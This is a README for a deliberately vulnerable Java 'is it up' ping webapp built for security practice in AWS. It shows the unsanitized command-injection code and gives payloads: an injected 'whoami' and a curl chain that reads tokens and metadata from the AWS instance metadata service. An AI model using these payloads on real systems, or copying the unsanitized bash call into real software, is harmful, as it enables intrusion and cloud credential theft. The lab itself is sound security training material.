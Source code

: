 # Vulnerable Java Webapp

A simple java based webapp which contains a command injection vulnerability. 
This is a vulnerable application for use in security testing and practice ONLY. Do not deploy anywhere in production!
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Exploitation](#license)
- [Vulnerability](#vulnerability)

## Features

I needed a simple app for security testing in AWS, in Java!
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple standalone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS
![Screenshot](screenshot.png)
![Screenshot2](screenshot2.png)


## Installation

Clone the repo and ensure you have maven installed.
If deploying in AWS I recommend deploying to an Amazon Linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in `start.sh`

## Exploitation

A couple of ways to exploit the app:

**Command execution:**

```google.com && whoami```


**SSRF exploit:**

```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/```



## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash in executeCommand:

```Process process = new ProcessBuilder("/bin/bash", "-c", command).start();```


